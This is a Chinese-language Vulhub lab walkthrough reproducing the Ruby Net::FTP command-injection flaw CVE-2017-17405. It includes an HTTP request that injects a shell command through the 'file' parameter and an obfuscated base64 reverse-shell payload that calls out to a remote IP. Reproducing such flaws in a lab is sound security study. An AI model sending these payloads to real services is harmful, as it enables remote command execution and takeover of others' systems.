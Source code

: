 # Ruby Net::FTP 模块命令注入漏洞 CVE-2017-17405

## 漏洞描述

Ruby Net::FTP 模块是一个FTP客户端，在上传和下载文件的过程中，打开本地文件时使用了`open`函数。而在ruby中，`open`函数是借用系统命令来打开文件，且没用过滤shell字符，导致在用户控制文件名的情况下，将可以注入任意命令。

## 环境搭建

Vulhub编译及运行漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/`将可以看到一个HTTP服务。这个HTTP服务的作用是，我们访问`http://your-ip:8080/download?uri=ftp://example.com:2121/&file=vulhub.txt`，它会从example.com:2121这个ftp服务端下载文件vulhub.txt到本地，并将内容返回给用户。

## 漏洞复现

因为这是一个FTP客户端的漏洞，所以我们需要先运行一个可以被访问到的服务端。比如使用python：

```
# 安装pyftpdlib
pip install pyftpdlib

# 在当前目录下启动一个ftp服务器，默认监听在`0.0.0.0:2121`端口
python3 -m pyftpdlib -p 2121 -i 0.0.0.0
```

![image-20220228221133067](./images/202202282211126.png)

然后即可开始利用漏洞。注入命令`|touch${IFS}awesome_poc.txt`（空格用`${IFS}`代替，原因不表），发送如下数据包即可（其中uri指定的ftp服务器就是我用python运行的一个简单的ftp server，其中无需放置任何文件）：

```
GET /download?uri=ftp://your-vps:2121/&file=|touch${IFS}awesome_poc.txt HTTP/1.1
Host: your-ip:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```

![image-20220228221337350](./images/202202282213424.png)

然后进入docker容器内，可见awesome_poc.txt已被创建：

![image-20220228221433232](./images/202202282214280.png)

执行反弹shell的命令，成功反弹：

```
|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo}|{base64,-d}|{bash,-i}'
```

![image-20220228221216580](./images/202202282212651.png)

> kali中反弹失败，vps反弹成功，可能是因为kali的默认shell为zsh

